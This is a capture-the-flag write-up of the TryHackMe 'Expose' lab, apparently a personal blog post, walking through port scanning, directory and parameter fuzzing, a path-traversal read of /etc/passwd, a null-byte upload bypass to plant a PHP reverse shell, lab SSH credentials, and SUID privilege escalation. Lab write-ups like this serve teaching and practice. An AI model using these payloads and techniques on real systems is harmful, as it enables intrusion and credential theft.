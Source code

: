 ```yaml
---
layout: post
title:  "Writeup | Expose"
date:   3 July 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
You can visit this challenge on [TryHackMe Challenge: Expose](https://tryhackme.com/room/expose)


### nmap
    ```bash
    PORT     STATE SERVICE                 VERSION
    21/tcp   open  ftp                     vsftpd 2.0.8 or later
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.4.9.189
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 78:be:56:64:e4:96:42:66:ea:e5:85:26:20:92:8e:85 (RSA)
    |   256 43:aa:00:0b:f0:95:ca:9f:9f:b0:4b:ca:4d:4c:54:e4 (ECDSA)
    |_  256 48:33:fd:a4:55:fd:32:6f:8b:aa:3d:c0:df:ad:9f:29 (ED25519)
    53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.16.1-Ubuntu
    1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: EXPOSED
    1883/tcp open  mosquitto version 1.6.9
    | mqtt-subscribe: 
    |   Topics and their most recent payloads: 
    |     $SYS/broker/load/messages/sent/15min: 0.07
    |     $SYS/broker/load/bytes/sent/5min: 0.79
    |     $SYS/broker/load/messages/received/5min: 0.20
    |     $SYS/broker/load/sockets/15min: 0.07
    |     $SYS/broker/load/bytes/sent/1min: 3.65
    |     $SYS/broker/load/bytes/sent/15min: 0.27
    |     $SYS/broker/store/messages/bytes: 180
    |     $SYS/broker/version: mosquitto version 1.6.9
    |     $SYS/broker/bytes/sent: 4
    |     $SYS/broker/uptime: 2035 seconds
    |     $SYS/broker/load/connections/15min: 0.07
    |     $SYS/broker/bytes/received: 18
    |     $SYS/broker/load/messages/received/1min: 0.91
    |     $SYS/broker/load/bytes/received/5min: 3.53
    |     $SYS/broker/load/connections/1min: 0.91
    |     $SYS/broker/load/sockets/5min: 0.20
    |     $SYS/broker/load/bytes/received/15min: 1.19
    |     $SYS/broker/load/messages/sent/1min: 0.91
    |     $SYS/broker/load/sockets/1min: 0.91
    |     $SYS/broker/load/messages/received/15min: 0.07
    |     $SYS/broker/load/messages/sent/5min: 0.20
    |     $SYS/broker/load/connections/5min: 0.20
    |     $SYS/broker/load/bytes/received/1min: 16.45
    |     $SYS/broker/messages/received: 1
    |     $SYS/broker/messages/sent: 1
    |_    $SYS/broker/heap/maximum: 49688
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- Open ports: **21(ftp),22(ssh),53(dns),1337(httpd),1883(mosquitto)**
- As usual, web first


### Web
- There's nothing on the main page on port 1337
- try directory enumeration first, using gobuster:

    ```bash
    /admin                (Status: 301) [Size: 319] [--> http://10.10.115.33:1337/admin/]
    /admin_101            (Status: 301) [Size: 323] [--> http://10.10.115.33:1337/admin_101/]
    /javascript           (Status: 301) [Size: 324] [--> http://10.10.115.33:1337/javascript/]
    /phpmyadmin           (Status: 301) [Size: 324] [--> http://10.10.115.33:1337/phpmyadmin/]
    ```

- Look at `/admin`, seems like a login page. However, after I tried many times for submitting the form, realizing it's just a submit button
- `/javascript` lacks permission
- `/phpMyAdmin` is a online database management system which I used it 5 yrs ago. The phpMyAdmin version is 4.9.5deb2 which can be found on website's source code.
- perhaps I can try sqlmap after acquiring the valid username
- Fine, using `ffuf` to enumerate valid username => Nothing
- go check another directory `admin_101`, which prefilled with email address
- 爆出一些東西來:

    ```bash
    +----+-----------------+---------------------+--------------------------------------+
    | id | email           | created             | password                             |
    +----+-----------------+---------------------+--------------------------------------+
    | 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
    +----+-----------------+---------------------+--------------------------------------+

    +----+------------------------------+-----------------------------------------------------+
    | id | url                          | password                                            |
    +----+------------------------------+-----------------------------------------------------+
    | 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
    | 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
    +----+------------------------------+-----------------------------------------------------+
    ```

- go to `/file1010111/index.php` and type password, viewed the page and found two hints:
    - `Parameter Fuzzing is also important :) or Can you hide DOM elements?`
    - `Hint: Try file or view as GET parameters?`

- Let's try parameter fuzzing first:

    ```bash
    └─# ffuf -X POST -u http://10.10.115.33:1337/file1010111/index.php?FUZZ=1 -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=pirredrm6od04eb2hitei485te" -d "password=easytohack" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fw 127

            /'___\  /'___\           /'___\       
        /\ \__/ /\ \__/  __  __  /\ \__/       
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
            \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

        v2.1.0-dev
    ________________________________________________

    :: Method           : POST
    :: URL              : http://10.10.115.33:1337/file1010111/index.php?FUZZ=1
    :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
    :: Header           : Content-Type: application/x-www-form-urlencoded
    :: Header           : Cookie: PHPSESSID=pirredrm6od04eb2hitei485te
    :: Data             : password=easytohack
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    :: Filter           : Response words: 127
    ________________________________________________

    file                    [Status: 200, Size: 988, Words: 135, Lines: 45, Duration: 509ms]
    ```

- Try `?file=../../../../../../../../../../etc/passwd` and got the following output. Via LFI, I found that maybe user `zeamkish` is what we're interested in (because he got the /bin/bash and the hint we got before that username starts with z)

    ```bash
    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin bind:x:115:122::/var/cache/bind:/usr/sbin/nologin Debian-snmp:x:116:123::/var/lib/snmp:/bin/false redis:x:117:124::/var/lib/redis:/usr/sbin/nologin mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    ```

- Go `/upload-cv00101011/index.php` and type username `zeamkish`. I got a page which can upload `.png` file. Here I come out an exploit that I am able to upload a php shell and then visit it via LFI. I crafted a php-reverse-shell named shell.jpg and turned on burp proxy. Captured the request and modified filename from `shell.jpg` to `shell.php[NULLBYTE].jpg`. Then go to `/upload_thm_1001/` to find php file, clicked it and then got a reverse shell.

- look into `/home/zeamkish` and found ssh credentials:

    ```bash
    $ cd /home/zeamkish
    $ cat flag.txt
    cat: flag.txt: Permission denied
    $ cat ssh_creds.txt
    SSH CREDS
    zeamkish
    easytohack@123
    ```

### Privilege Escalation
- Use `linpeas` to find any attack vector
- find `/usr/bin/find` and `/usr/bin/nano` have SUID privileges
- Go to GTFOBins to find any possible exploitation. `find` with SUID could lead to root privilege escalation.
- Get root shell



### Conclusion
- I stuck on directory enumeration with using a different wordlist `xato-xxx`. Due to this I can't get `admin_101` at the beginning and wasting a lot of time on `/phpmyadmin` and fuzzing tests on username and password.
- Next time testing SQLi on first glimpse, make sure not to use `--batch`. Instead, using manual operations.
- Use burp suite to set one byte to null byte (0x00) to bypass the validation
- ***When you visit a PHP file in your browser, here's what happens: the browser sends a request to the server, the server passes the PHP file to the PHP interpreter, which runs the code and turns it into HTML. That HTML is then sent back to the browser, which loads and displays it.***


## 學習資料
1. [TryHackMe Challenge: Expose](https://tryhackme.com/room/expose)
2. [Writeup \| Expose](https://0xb0b.gitbook.io/writeups/tryhackme/2023/expose)

</div>
</body>
</html>
